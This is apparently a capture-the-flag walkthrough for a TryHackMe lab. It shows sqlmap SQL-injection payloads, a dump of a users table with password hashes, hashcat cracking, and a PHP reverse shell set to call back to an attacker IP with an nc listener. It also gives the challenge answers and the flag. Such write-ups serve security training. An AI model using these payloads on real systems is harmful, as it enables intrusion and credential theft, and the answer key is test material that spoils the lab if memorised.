

# TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 23
## Reconnaissance
* An `nmap` scan:
```bash
$ sudo nmap -sV -p- -vv 10.10.224.13
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. The HTTP request used for loging in that Burpsuite captured (saved as `request.txt`):
```http
POST /register.php HTTP/1.1
Host: 10.10.224.13
Content-Length: 62
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.224.13
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.224.13/register.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=4ff77qqc7jmoamdon1h2touoih
Connection: close

log_email=test%40test.org&log_password=test&login_button=Login
```
## Which field is SQL injectable? Use the input name used in the HTML code.
* Use `sqlmap` to find the name of the database and the SQL-injectable field:
```bash
$ sqlmap -r $(pwd)/request.txt --current-db
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
current database: 'social'
```
**Answer**: `log_email`
## What is Santa Claus' email address?
1. Use `sqlmap` to get the table names under the `social` database:
```bash
$ sqlmap -r $(pwd)/request.txt -D social --tables	
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 4994 FROM (SELECT(SLEEP(5)))tGFA) AND 'KwiJ'='KwiJ&log_password=test&login_button=Login
---
Database: social
[8 tables]
+-----------------+
| comments        |
| friend_requests |
| likes           |
| messages        |
| notifications   |
| posts           |
| trends          |
| users           |
+-----------------+
```
2. 
```bash
$ sqlmap -r $(pwd)/request.txt -D social -T users -C username,email,password --dump
---
Parameter: log_email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=test@test.org' AND (SELECT 2841 FROM (SELECT(SLEEP(5)))OIiK) AND 'FpXc'='FpXc&log_password=test&login_button=Login

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: log_email=test@test.org' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a717171,0x6c70647376585242715742557051726f556f6d6d45794b4b476547665575685347497153756d476f,0x7170716b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&log_password=test&login_button=Login
---
Database: social
Table: users
[9 entries]
+-----------------------+------------------------+----------------------------------+
| username              | email                  | password                         |
+-----------------------+------------------------+----------------------------------+
| santa_claus           | bigman@shefesh.com     | f1267830a78c0b59acc06b05694b2e28 |
| mommy_mistletoe       | mmtoe@shefesh.com      | 402223cb4df4c5050a38043d38b1372b |
| arnold_schwarzenegger | terminator@shefesh.com | 78a6d0e6c73a29ef6d07d56f32f67b30 |
| johnfortnite_kennedy  | jayfkay@shefesh.com    | bc808149a93bc7050c3c6c4b7a5a0c97 |
| john_richardson       | john@keepingit.online  | aa4e356d1509f1c1f53e0191601cde72 |
| naughty_elf           | notty@shefesh.com      | 6aff5ae0718de8945a3f71ba4d1ca76f |
| felix_navidad         | felixnav@shefesh.com   | 57e9eb182943223b0b4e7f17c5e4cb6e |
| jessica_claus         | mrsclaus@shefesh.com   | 15bc4f3ba871b2fa651363dcddfb27d9 |
| myron_larabee         | mailman@shefesh.com    | a60c0662c54bde0301d9aa2ad86203df |
+-----------------------+------------------------+----------------------------------+
```

**Answer**: `bigman@shefesh.com`
## What is Santa Claus' plaintext password?
```bash
$ hashcat -a 0 -m 0 'f1267830a78c0b59acc06b05694b2e28' rockyou.txt
f1267830a78c0b59acc06b05694b2e28:saltnpepper
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: f1267830a78c0b59acc06b05694b2e28
Time.Started.....: Wed Jun 30 16:42:37 2021 (0 secs)
Time.Estimated...: Wed Jun 30 16:42:37 2021 (0 secs)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:   947.9 kH/s (11.70ms) @ Accel:64 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 172032/14344384 (1.20%)
Rejected.........: 0/172032 (0.00%)
Restore.Point....: 147456/14344384 (1.03%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#2....: mckenzy -> florida69
```
**Answer**: `saltnpepper`
## Santa has a secret! Which station is he meeting Mrs Mistletoe in?
1. Login as Santa with the email `bigman@shefesh.com` and password saltnpepper `saltnpepper`.
2. Access the chat messages between Santa Mrs Mistletoe:


**Answer**: `Waterloo`
## Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in `/home/user/`
1. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
2. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar):
```php
$ip = '<OPENVPN_IP>';
$port = 443;
```
3. Rename the file to `php-reverse-shell.phtml`.
4. Run `nc -lvnp 1234` and upload `php-reverse-shell.phtml`:
```bash
$ nc -lvnp 1234
$ cd /home/user/
$ ls
flag.txt
$ cat flag.txt
MERRY CHRISTMAS FROM SHEFFIELD, UK

CREATED IN COLLABORATION WITH TRYHACKME.COM

THM{SHELLS_IN_MY_EGGNOG}
```

**Flag**: `THM{SHELLS_IN_MY_EGGNOG}`